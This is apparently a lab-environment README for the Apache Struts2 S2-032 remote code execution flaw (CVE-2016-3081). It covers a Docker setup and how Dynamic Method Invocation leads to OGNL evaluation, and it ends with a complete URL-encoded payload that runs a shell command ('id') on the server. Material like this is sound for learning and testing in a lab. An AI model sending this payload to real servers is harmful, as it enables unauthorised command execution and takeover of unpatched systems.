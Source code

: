 # S2-032 Remote Code Execution Vulnerablity（CVE-2016-3081）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

References:

 - https://cwiki.apache.org/confluence/display/WW/S2-032
 - http://blog.nsfocus.net/apache-struts-2-remote-code-execution-vulnerability-s2-046-technical-analysis-solution/

## Setup

Execute the following command to start the Struts2 2.3.28：

```
docker-compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example page.

## Exploitation

There’s a feature embedded in Struts 2 that lets the "!" (bang) character invoke a method other than execute . It is called “Dynamic Method Invocation” aka DMI.

A simple way to use DMI is to provide HTTP parameters prefixed with method:. For example in the URL it could be Category.action?method:create=foo, the parameter value is ignored.

The name of DMI will be evaluated OGNL expression engine, which would cause the RCE vulnerability.

Visit following URL to trigger the `id` command:

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![](1.png)
